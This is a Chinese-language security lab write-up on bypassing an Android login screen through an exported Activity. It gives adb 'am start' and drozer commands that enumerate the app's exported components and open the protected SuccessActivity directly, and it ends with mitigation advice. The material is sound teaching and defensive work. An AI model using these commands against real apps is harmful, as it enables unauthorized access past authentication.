 # Activity漏洞：越权绕过

### 原理

在Android系统中，Activity默认是不导出的，如果设置了`exported = "true"`这样的关键值或者是添加了`<intent-filter>`这样的属性，那么此时Activity是导出的，就会导致越权绕过或者是泄露敏感信息等安全风险。
例如：

-   一些敏感的界面需要用户输入密码才能查看，如果没有对调用此Activity的组件进行权限验证，就会造成验证的越权问题，导致攻击者不需要密码就可以打开
-   通过Intent给Activity传输畸形数据使得程序崩溃拒绝服务
-   对Activity界面进行劫持



### 实验步骤

绕过MainActivity的登录验证，直接访问受限的`SuccessActivity`。

#### 1. 编译安装、并运行该程序

只有当用户名为`admin`,密码为`123456`时，才会跳转到Success界面

#### 2. 越过登录页跳转到Success页

由于Success界面所属的`SuccessActivity`设置了`exported="true"`，导致可以被外部组件可访问。

##### 2.1 使用am命令

可直接输入命令

```bash
adb shell am start -D -n com.forgotten.activityoverpermission/com.forgotten.activityoverpermission.SuccessActivity
```

便可以直接来到`Success`界面

##### 2.2 使用dozer

```bash
dz> run app.package.attacksurface com.forgotten.activityoverpermission
Attack Surface:
  2 activities exported
  0 broadcast receivers exported
  0 content providers exported
  0 services exported
    is debuggable
dz> run app.activity.info -a com.forgotten.activityoverpermission
Package: com.forgotten.activityoverpermission
  com.forgotten.activityoverpermission.SuccessActivity
    Permission: null
  com.forgotten.activityoverpermission.MainActivity
    Permission: null

dz> run app.activity.start --component com.forgotten.activityoverpermission com.forgotten.activityoverpermission.SuccessActivity
```

也可以直接来到`Success`界面



### 如何防范

-   私有Activity是相对安全的，创建activity时，设置exported属性为false。
-   公开Activity应谨慎处理接收的Intent，有返回数据不包含敏感信息，不应发送敏感信息，收到返回数据谨慎处理。